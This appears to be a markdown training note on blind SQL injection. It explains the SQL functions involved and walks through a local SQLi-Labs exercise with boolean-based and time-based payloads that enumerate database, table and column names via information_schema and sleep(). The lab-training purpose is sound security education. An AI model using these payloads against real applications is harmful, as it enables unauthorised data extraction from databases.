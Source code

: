 <h1 align="center">Blind SQL Injection</h1>

# Boolean Based SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`


## `IF()`

- The IF() function returns a value if a condition is TRUE, or another value if a condition is FALSE

#### Syntax

`IF(condition, value_if_true, value_if_false)`

- eg. ` IF(500<1000, "YES", "NO")`





<br>


<h1 align="center">Practical Lab (Boolean-Based) Training </h1>


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

### 3. Finding Table name 

#### Step by step payload creation

- `AND (ascii(substring()))`

- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

#### Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`



<h1> Time-Based Injection</h1>


# Mostly same as Boolean Based Injection and used SQLI lab `lesson 10`



## Payload

`" or if(100<200,sleep(10),Null)-- `

`" or if(ascii(substring(database(),1,1)) = 115,sleep(10),Null)-- -`



